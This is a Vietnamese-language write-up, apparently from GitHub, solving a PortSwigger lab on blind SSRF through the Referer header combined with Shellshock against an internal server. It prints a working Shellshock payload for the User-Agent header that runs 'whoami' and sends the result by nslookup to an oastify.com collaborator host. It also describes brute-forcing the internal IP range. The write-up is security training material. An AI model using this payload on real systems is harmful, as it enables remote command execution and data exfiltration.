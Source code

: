 # Target Goal: 

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080`. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

# Analysis : 

Bài này chính là ứng dụng của bài [Lab 3](https://github.com/vanniichan/Portswigger/tree/main/SSRF/Lab_3)

Bắt request GET tới 1 sản phẩm bất kì, đổi `Referer Heade`r thành địa chỉ `BurpCollab` cá nhân. Xác nhận bất cứ khi nào request này gửi đi, sẽ có kết nối đến `BurpCollab`.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3ec86dac-7098-4bdb-ade2-a00601cb271f)

`Collaborator Everywhere` là 1 extension đẩy các payload không có hại vào các trường header để kiểm tra xem có trường nào ping ngược lại hay không. Nếu có nó sẽ có thể xảy ra 1 lỗ hổng blind nào đó. Trong bài lab này, xuất hiện một số pingback đến collaborator, trong đó có connection từ `Referer` và `User-Agent`. Có vẻ ngoài việc lấy URL từ `Referer`, phần mềm bên ngoài còn sử dụng cả `User-Agent`. Do đó sẽ tạo ra thêm 1 pingback connection

![image](https://github.com/vanniichan/Portswigger/assets/112863484/bda7e600-fe53-4a7b-a497-f4cedeab1e76)

Sử dụng payload của shellshock `() { :; }; /usr/bin/nslookup $(whoami).7qyvk4vrf3a4twh17fc1erxvsmydm4at.oastify.com` để chèn vào `User-Agent`. Khi chạy, payload sẽ chạy lệnh nslookup tới địa chỉ được chỉ định kèm theo kết quả của lệnh whoami.

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3c2e3f3a-94db-4d05-8953-3f748496ea5c)

`Burp Collabor` không trả về cái gì. Lý do là vì nó không nằm ở `192.168.0.1` 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/a3050721-7e79-410a-87af-21e390908ee9)

Brute-force địa chỉ ip và ta đã nhận được respond:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/69d28e84-59d0-494e-a56a-a145cafcaa98)

# Flag:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/4125e8ec-711b-404e-8730-6dd1b9075afd)
